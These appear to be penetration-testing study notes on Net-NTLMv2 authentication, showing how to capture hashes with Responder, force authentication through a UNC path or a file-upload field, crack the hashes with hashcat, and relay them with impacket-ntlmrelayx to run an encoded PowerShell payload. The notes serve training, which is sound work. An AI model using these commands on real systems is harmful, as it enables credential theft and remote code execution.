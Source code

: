 1. Send the server a request, outlining the connection details to access the SMB share.

2. Then the server will send us a challenge in which we **encrypt** data for our response with our **NTLM hash** to prove our identity.

3. The server will then check our challenge response and either grant or deny access, accordingly.

Net-NTLMv2 is less secure than the more modern **Kerberos** protocol. In the real-world, the majority of Windows environments still rely on the older protocol, to support older devices that may not support Kerberos.

We need our target to start an authentication process using Net-NTLMv2 against a system we control.

The **Responder** tool includes a built-in SMB server that handles the authentication process for us and prints all captured Net-NTLMv2 hashes. It also includes other protocol servers (including HTTP and FTP) as well as Link-Local Multicast Name Resolution (LLMNR), NetBIOS Name Service (NBT-NS), and Multicast DNS (MDNS) poisoning capabilities.

```bash
sudo responder -I tap0
```

If we've **obtained code execution** on a remote system, we can easily force it to authenticate with us by commanding it to connect to our prepared SMB server.

Assuming our Responder is listening on 192.168.119.2

```pwsh
dir \\192.168.119.2\test
```

```bash
hashcat -m 5600 paul.hash /usr/share/wordlists/rockyou.txt --force
```

If we **don't have code execution**, use other vectors to force an authentication. E.g., a **file upload** form in a web application on a Windows server, try to enter a non-existing file with a UNC path like `\\192.168.119.2\share\nonexistent.txt`. If the web application supports uploads via **SMB**, the Windows server will authenticate to our SMB server.

### Relaying Net-NTLMv2

If we have access to **FILES01** as an **unprivileged** user => cannot run Mimikatz to extract passwords.

We also obtained Net-NTLMv2 hash the couldn't crack it because it was too complex.

If the user may be a **local administrator on another machine** => try to use the hash on another machine: **relay attack**.

* --no-http-server: disable the HTTP server since we are relaying an SMB connection
* -smb2support: add support for SMB2
* -t: set the target to FILES02
* -c: set our command which will be executed on the target system as the relayed user

```bash
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.212 -c "powershell -enc JABjAGwAaQBlAG4AdA..."
```
